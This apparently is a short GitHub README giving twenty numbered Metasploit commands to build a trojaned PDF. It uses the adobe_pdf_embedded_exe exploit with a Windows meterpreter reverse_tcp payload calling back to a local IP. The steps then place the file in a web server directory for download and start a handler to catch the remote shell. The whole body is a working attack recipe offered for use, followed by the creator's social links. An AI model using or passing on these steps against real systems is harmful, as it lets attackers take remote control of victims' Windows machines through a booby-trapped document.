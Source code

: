 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 4 -  msfconsole

STEP 5 -  search type:exploit platform:windows adobe:pdf

STEP 6 -  use exploit/windows/fileformat/adobe_pdf_embedded_exe

STEP 7 -  info_

STEP 8 -  set payload windows/meterpreter/reverse_tcp

STEP 9 -  show options

STEP 10 -  set LHOST 192.168.0.78

STEP 11 -  set LPORT 4455

STEP 12 -  set FILENAME test.pdf

STEP 13 -  show options

STEP 14 -  exploit

STEP 15 -  sudo mv /home/kali/.msf4/local/test.pdf /var/www/html

STEP 16 -  use exploit/multi/handler

STEP 17 -  set payload windows/meterpreter/reverse_tcp

STEP 18 -  set LHOST 192.168.0.78

STEP 19 -  set LPORT 4455

STEP 20 -  exploit









____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________



